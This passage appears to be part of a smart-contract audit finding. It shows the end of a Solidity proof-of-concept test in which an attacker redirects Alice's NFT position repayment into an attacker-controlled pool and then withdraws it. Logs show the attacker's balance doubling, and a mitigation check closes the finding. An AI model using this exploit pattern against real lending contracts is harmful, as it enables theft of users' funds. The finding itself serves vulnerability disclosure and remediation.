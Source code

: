 ```solidity
        }

        // Alice observed the last NFT is her NFT with id = 1
        // so she repaid to the NFT with id = 0
        // Because of the attack, the last NFT is now the NFT with id = 2
        {
            INFTPositionManager.AssetOperationParams memory paramsRepay =
            INFTPositionManager.AssetOperationParams(address(tokenA), address(0), 1 ether, 0, dummyData);

            vm.prank(alice);
            nftPositionManager.repay(paramsRepay);
        }

        vm.prank(attacker);
        attackerPool.withdrawSimple(address(tokenA), attacker, 1 ether, 0);
        console.log("Attacker tokenA balance after: %e", tokenA.balanceOf(attacker));
    }
}
```

Logs:
```bash
  Attacker tokenA balance before: 1e18
  Attacker tokenA balance after: 2e18
```

### Mitigation

Add a lending pool to the input parameters of `NFTPositionManager`'s lending functions, add check against this lending pool when `params.tokenId == 0`

```solidity
    if (params.tokenId == 0) {
      params.tokenId = _nextId - 1;
      if (msg.sender != _ownerOf(params.tokenId) || _positions[params.tokenId].pool != params.pool) revert NFTErrorsLib.NotTokenIdOwner();
    }
```
